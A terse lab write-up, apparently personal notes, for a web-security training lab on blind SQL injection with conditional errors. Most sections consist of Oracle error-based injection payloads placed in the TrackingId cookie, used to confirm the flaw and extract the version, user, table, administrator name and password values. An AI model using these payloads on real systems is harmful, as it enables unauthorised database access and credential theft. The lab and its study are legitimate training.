

# Lab: Blind SQL injection with conditional errors

## Sitemap:

Path: `/`

Path: `/login`

Path: `/my-account`

Path: `/filter?category=Corporate+gifts`

Path: `/product?productId=2`

## Identification:

URL: `https://0ab8007d033a0f3780cb08ad00eb007b.web-security-academy.net/`

Payload: `Cookie: TrackingId=WpxCYwlTPGZT1jK5'; session=MZWBd0eG4IKK4gR65brcZWs8wcBWPkiX`


## Exploitation:

### Preparation:

Statement that evals to true:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```


Statement that evals to false:

```
Cookie: TrackingId=9yFpW07KdXAHHysH'+and+1=(CASE+WHEN+(1=9)+THEN+1+ELSE 1/0+END)--+- ; session=lMYctbHZgE7pbolxmoUdSIJJCTf4Gv4P
```


```
Cookie: TrackingId=pgapJtljYilOUoU9'+and+'1'=+(select+'1'+from+dual)--+-; session=gHTI3VG5Hmm1PqDA2WPS6CzPGgbIdaYh
Cookie: TrackingId=pgapJtljYilOUoU9''; session=gHTI3VG5Hmm1PqDA2WPS6CzPGgbIdaYh
```

#### CASE:

```
Cookie: TrackingId='+or+'1'=+(CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
Cookie: TrackingId='+or+'1'=+(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE 1/0+END+from+dual)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
Cookie: TrackingId='or+1=(SELECT+CASE+WHEN+(1=1)+THEN+1+ELSE+1/0+END+FROM+v$version+WHERE+ROWNUM=1)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```

### Get_version:

```
Cookie: TrackingId='or+1=(SELECT+CASE+WHEN+(banner+LIKE('Oracle%25'))+THEN+1+ELSE+1/0+END+FROM+v$version+WHERE+ROWNUM=1)+--+-; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```


<br>


<br>

```
Cookie: TrackingId='+or+'1'=+(SELECT+CASE+WHEN+(USER+like+('PETER'))+THEN+1+ELSE 1/0+END+from+dual)+--+-'; session=icHWDOmb8WOt1Jquce9MWEpfv8kHUBac
```

```
Oracle+Database+11g+Express+Edition+Release+11.2.0.2.0+-+64bit+Production
```

### Get_user:

```
The user is: PETER
```

<br>

```
https://www.beekeeperstudio.io/blog/how-to-check-oracle-version-and-edition#querying-the-vversion-dynamic-view
```


<br>

### Get_tables:

```
https://chartio.com/resources/tutorials/how-to-list-all-tables-in-oracle/
```

<br>


<br>

The table is `USERS`.

<br>


<br>

### Get_columns:


<br>



<br>


### Get_Usernames:

THe user is `administrator`.


### Get_Passwords:

```
7v02hg0azxslpzm6s7cv
```


```
5l5mjaghj7pfi6tejmg1
```
